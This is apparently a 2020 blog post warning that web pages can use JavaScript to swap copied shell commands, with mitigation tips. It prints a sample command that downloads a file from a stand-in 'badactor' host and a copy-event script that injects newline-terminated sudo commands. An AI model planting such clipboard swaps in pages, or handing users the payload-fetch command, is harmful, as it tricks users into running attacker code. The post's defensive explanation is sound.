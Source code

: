 ```yaml
---
title: Beware copy/pasting code or commands from the internet
description: You never really know what is being added to your clipboard...
posted: "2020-10-19"
updated: "2021-03-19"
image: https://res.cloudinary.com/dg1mbzzfx/image/upload/v1668098135/TimBryan.dev/posts/arget-zvHhKiVuR9M-unsplash_fejepb.jpg
credit:
  [
    Arget,
    https://unsplash.com/@arget?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText,
  ]
status: published
---
```


Credit to [https://briantracy.xyz/writing/copy-paste-shell.html](https://briantracy.xyz/writing/copy-paste-shell.html) for bringing the topic/issue to my attention!

---

## The Problem

As an avid Linux user and Windows Power User where it is commonplace to copy & paste code/scripts/commands from tutorials and help sites, it always intrigues me how bad actors find ways of exploiting users in way&apos;s I haven&apos;t considered before.

An example of this from Brian Tracy is how the data you &ldquo;copy&rdquo; from a website isn&apos;t necessarily what ends up in your Clipboard for pasting!

With just a few additional lines of JavaScript/code to a website, you can make it so that when a user performs a Copy action, the actual text copied to the clipboard is not the actual text you were trying to copy.

## How does it happen?

A real-world example of this may be some lines of code for installing a package on Debian where the code is perfectly innocent (don&apos;t worry if you don&apos;t understand it – this is just for demo purposes):

```bash
wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
tar xvzf super-awesome-package.tar.gz
```

This code is perfectly innocent and does exactly what it says on the tin, but with this example and a bad actor in play, you could end up with something like the following actually in your Clipboard, where instead of grabbing the intended package from Github, it&apos;s actually grabbing something more sinister and renaming the asset as the intended one:

```bash
wget super-awesome-package.tar.gz https://github.com/badactor/mallicious-payload.tar.gz
tar xvzf super-awesome-package.tar.gz
```

Here is an example of how the switch can be made and the malicious code can be injected with a couple of lines of JavaScript in the webpage:

```javascript
document.querySelector('#ExampleCode').addEventListener('copy', evtCopy => {
    evtCopy.clipboardData.setData('text/plain',
        'sudo wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
 \n sudo tar xvzf super-awesome-package.tar.gz \n sudo another command \n echo done'
    );
    evtCopy.preventDefault();
});
```

In the above snippet, the bad actor copies the malicious code to the Clipboard, and by ending each command with a New Line `\n` character, the shell will normally execute the next line automatically and happen so quickly that you may not even spot the swap.

## Solutions?

- While it may be a drag to do so, a simple way to combat this problem would be to have a text file open that you can paste into before pasting into the console to ensure there are no extra lines of code being added or replaced.
- Another way to combat it would be to type the commands out by hand (I used to do this a lot when I first started using Linux as I found the process of typing the whole command out from scratch helped me to pick things).

If you have any ideas, suggestions or solutions to this - please get in touch and I'll add them onto my post with a credit to you! 😊
